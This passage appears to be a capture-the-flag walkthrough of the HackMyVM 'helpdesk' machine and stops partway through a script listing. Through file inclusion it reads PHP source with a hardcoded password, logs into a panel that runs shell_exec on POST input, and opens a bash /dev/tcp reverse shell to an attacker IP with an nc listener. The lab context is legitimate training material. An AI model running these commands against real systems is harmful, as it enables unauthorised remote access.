```bash
kali :: exercises/HMV/helpdesk » curl http://10.9.9.12/ticket.php\?url\=login.php
<style>
body { font-family: sans-serif; background: #f0f0f0; padding: 20px; }
pre { background: #fff; padding: 10px; border-left: 4px solid #4A90E2; }
h1 { color: #4A90E2; }
</style><h1>Ticket Viewer</h1><h1>Ticket Viewer</h1><pre><?php
session_start();

// Enable PHP error display for debugging (remove in production)
ini_set('display_errors', 1);
error_reporting(E_ALL);

// Stored credentials
$stored_user = 'helpdesk';

// SHA-512 hash for password: ticketmaster
$stored_hash = '$6$ABC123$fLo2MacCV.XBQeRZtHWL2297q/fUBs/b8gOmvLGuiz7wDgl3MSWcOOSKnTbaNPoUMCmEpY1dlwuPKbAtIuoo6.';
```
From the above output there's are hardcoded credentials which can help further our attacks.
```text
helpdesk:ticketmaster
```
Tried login in using the credentials over `SSH`. but to no avail
The credentials were correct on the login page of the website and I got access to the panel.
And this is how the page is handling the functionality
```php
// Handle command input
$output = "";
if ($_SERVER['REQUEST_METHOD'] === 'POST' && isset($_POST['cmd'])) {
    $cmd = $_POST['cmd'];
    $output = shell_exec($cmd . " 2>&1");
}
?>
```
I got a shell by running the following commands
```bash
---target host---
cmd=bash -c "bash -i >& /dev/tcp/10.5.5.6/9001 0>&1"

---attacker machine---
nc -lvnp 9001
```
Going through the file system of the machine. I found some interesting scripts in the  `/opt` folder.
```bash
www-data@helpdesk:/opt/helpdesk-socket$ ls -la
ls -la
total 16
drwxr-xr-x 2 helpdesk helpdesk 4096 Aug 23 11:18 .
drwxr-xr-x 4 root     root     4096 Aug 16 15:32 ..
-rwxr-xr-x 1 helpdesk helpdesk  158 Aug 16 15:32 handler.sh
srwxrwxrwx 1 helpdesk helpdesk    0 Aug 23 11:18 helpdesk.sock
-rw-r--r-- 1 root     root      184 Aug 16 15:44 serve.sh
```
Contents of the files are
```bash
---serve.sh---
cat serve.sh
#!/bin/bash

SOCKET="/opt/helpdesk-socket/helpdesk.sock"

[ -e "$SOCKET" ] && rm "$SOCKET"

```